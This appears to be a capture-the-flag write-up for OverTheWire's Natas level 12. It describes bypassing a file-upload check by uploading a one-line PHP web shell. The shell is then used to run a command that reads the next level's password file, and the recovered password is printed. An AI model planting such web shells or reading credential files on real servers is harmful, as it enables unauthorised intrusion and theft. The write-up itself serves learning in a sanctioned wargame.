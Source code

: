 # LV12 📤 File Upload Exploit  

When accessing the challenge, the page displayed a **title** along with two buttons:  
**"choose file"** and **"upload file"**.  
<img width="1920" height="467" alt="image" src="https://github.com/user-attachments/assets/632d3b1e-de7b-4465-a567-d3c18de2e406" />  

👉 Clicking **View Source Code**, I found the backend logic of the webpage:  
<img width="1398" height="981" alt="image" src="https://github.com/user-attachments/assets/befd7529-c2a0-4edd-96ec-9c69751cd0ac" />  
<img width="962" height="363" alt="image" src="https://github.com/user-attachments/assets/07ca0e97-cf70-4055-ac28-aa084268b365" />  

From the code, it was clear that the site allows **file uploads**, with a size restriction of **≤ 1KB**.  

---

## 🔎 Exploitation  

1. **Test uploading a `.php` file**  
   <img width="1920" height="528" alt="image" src="https://github.com/user-attachments/assets/304bb1d1-2f23-4634-8ba3-2e1d9541385f" />  

   Using Burp Suite to intercept the request:  
   <img width="1485" height="534" alt="image" src="https://github.com/user-attachments/assets/8ca4da5a-4063-4450-b0a1-2e30ea1243cf" />  

   The file was uploaded, but the server renamed it with a **`.jpg`** extension.  

---

2. **Bypass by uploading PHP code**  
   I modified the file contents to:  

   ```php
   <?php echo system($_GET['cmd']); ?>
Then uploaded it again.

Remote command execution
After upload, I navigated to the uploaded file and appended a command parameter:

upload/nguyen.php?cmd=cat /etc/natas_webpass/natas13


This executed the cat command on the hidden password file.

✨ Result

The password for Natas13 appeared:

```
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
```
